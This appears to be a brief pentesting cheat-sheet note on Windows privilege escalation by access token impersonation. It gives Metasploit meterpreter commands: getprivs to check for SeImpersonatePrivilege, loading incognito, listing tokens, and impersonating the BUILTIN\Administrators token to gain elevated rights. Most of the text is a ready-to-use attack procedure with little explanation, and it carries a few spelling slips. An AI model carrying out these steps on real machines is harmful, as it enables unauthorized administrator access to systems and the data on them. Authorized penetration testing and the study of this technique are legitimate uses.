 # Access Token Impersination

---

is an form of priv esc in windows environment.

#### Metasploit

once we have a meterpreter session we can make getrprivs

getprivs

if "SeImpersonatePrivilege" is there, we can exploit it. 

load incognito

To list all available tokens:

```
list_tokens -g
```
To impersonate a token

```
impersonate_token "BUILTIN\Administrators" 
```

getuid --> gained privs of <delegation token>


